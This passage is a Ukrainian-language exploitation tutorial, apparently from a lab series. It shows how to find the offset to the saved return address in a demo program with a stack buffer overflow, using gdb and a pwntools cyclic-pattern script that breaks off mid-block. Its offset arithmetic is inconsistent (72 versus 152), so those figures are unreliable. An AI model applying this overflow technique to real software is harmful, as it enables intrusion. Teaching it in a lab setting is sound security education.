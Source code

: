 ```bash
gdb ../build/stage05_demo_with_hint

# В GDB:
(gdb) break main
(gdb) run
(gdb) info frame
```

**Вивід info frame покаже:**
```
Stack level 0, frame at 0x7fffffffe090:
 rip = 0x401180 in main
 saved rip = 0x7ffff7a05083  ← Адреса saved RIP
 Arglist at 0x7fffffffe080
 Locals at 0x7fffffffe080   ← Тут локальні змінні
```

**Знайти відстань до saved RIP:**
```gdb
(gdb) print (void*)$rbp
$1 = 0x7fffffffe080

(gdb) print &buf
$2 = (char (*)[256]) 0x7fffffffdff0  ← Адреса buf

(gdb) print/d 0x7fffffffe080 - 0x7fffffffdff0 + 8
$3 = 72  ← OFFSET!
```

**Пояснення розрахунку:**
```
Saved RIP знаходиться на RBP + 8
buf знаходиться на 0x7fffffffdff0
RBP на 0x7fffffffe080

Offset = (RBP - buf) + 8
       = (0x7fffffffe080 - 0x7fffffffdff0) + 8
       = 0x90 + 8
       = 144 + 8
       = 152... ЦЕ ПРИКЛАД, ваші адреси будуть інші!
```

### Метод 3: Cyclic pattern (найшвидший)

```python
from pwn import *

# Генеруємо унікальний паттерн
pattern = cyclic(200)
print(f"Pattern (перші 50 байт): {pattern[:50]}")

# Запускаємо програму
io = process('../build/stage05_demo_with_hint')
io.send(pattern)

# Чекаємо виводу
try:
    output = io.recvall(timeout=1)
    print(output.decode())
except:
    # Якщо крашнулась - дивимось core dump
    try:
        core = io.corefile
        # Читаємо що було в saved RIP місці
        crashed_value = core.read(core.rsp, 8)

```